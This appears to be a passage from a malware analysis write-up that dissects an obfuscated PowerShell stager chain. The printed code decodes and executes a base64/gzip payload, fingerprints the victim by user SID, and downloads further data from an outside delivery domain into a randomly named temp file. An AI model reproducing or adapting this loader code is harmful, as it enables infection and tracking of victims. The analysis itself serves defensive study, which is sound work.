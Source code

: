 <h6>We can see that the decompressed data, content only a ZIP cut with a common obfuscation technique for the PowerShell script (same thing for the final script).</h6>

```csharp
${B}=("{70}{11}{34}{21}{1} [...] {68}{62}{41}"-f 'WYR0igCXgy6FKMNv+l7Yan4xdg691T2moiGlxLy','/ufu/NJNKwzJVvlsxY0v0aV9PD7er8U+Op9d20DcMyXno/Hr2hZW7O1KaiNqdqU1V','IwMja9kKGPiRs4Nt/raybU','zMbi2tEm5XeXg0QZRt14Sb9EXh6osuvZTRgMPGoRrh6jFiUrpDWzzmZZxIjg/xX+CqhCnTCYbDtT2cQ3Anlruybv' [...] ,'H4sIAAAAAAAEAHVW/XPaSBL9V7Qqn0cKRjE49rlMU','GUtEFG1Rxj','5sPl','YdFa+B2GvkJAmfMEuwxzibp')

```
<h6>The last line executed by the second stager executes the decompression and execution of the data content on the ZIP file.</h6>

```csharp
.('exec') (.('obj') ('IO.streamReader')(.('obj') ('IO.Compression.GZipStream')((.('obj') ('IO.MemoryStream') -A @(,[Convert]::FromBase64String($b))),[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()"
```

<h6>The first block of the final script declare a function for parse the return value and the objects used for getting the GUID of the victim.</h6>

```csharp
function X1($input)
{
  $($input.("substring").Invoke(1) -replace('-','')) -replace('1','-');
  return ${_}
};

${QE}=(&("get-process") -Id ${pId})."mainwindowhandle";
${XX}=&("new-object") [Runtime.InteropServices.HandleRef](1,${QE});
${T}=&("new-object") [Runtime.InteropServices.HandleRef](2,0);
```

<h6>The following block, load a window for getting the GUID in requesting the windows identity way.</h6>

```csharp
(( [TyPE]("reflection.assembly")."VAlUe"::("LoadWithPartialName").Invoke(("WindowsBase"))).("GetType").Invoke(("ms.win32.unsafenativemethods")))::("SetWindowPos").Invoke(${xX},${t},0,0,100,100,64.5*256);
$GUID = X1 (([TyPe]("system.security.principal.windowsidentity")."VAlue"::("GetCurrent").Invoke())."USER"."VALUE");
```
<h6>The next part of the code add the GUID to the URL of the delivery domain, create a web client for download the bytes form the reply of the domain and join it on a string. At the same time,this creates a filename on the one random file selected on modify the last four letters on this.</h6>

```csharp
${url}="https://rumetonare.com/?"+$GUID; 
$c2 =New-object "Net.Webclient";
$data=(([Char[]]($c2.DownloadData($url)) -Join'' );
$pathenv=${ENV:temp};
$filename=(${d}=.("gci") $pathenv|.("get-random"))."nAME" -replace ".{4}$"; #get random name from a random file on temp folder 
$path=$pathenv+'\'+$filename+'.';
```
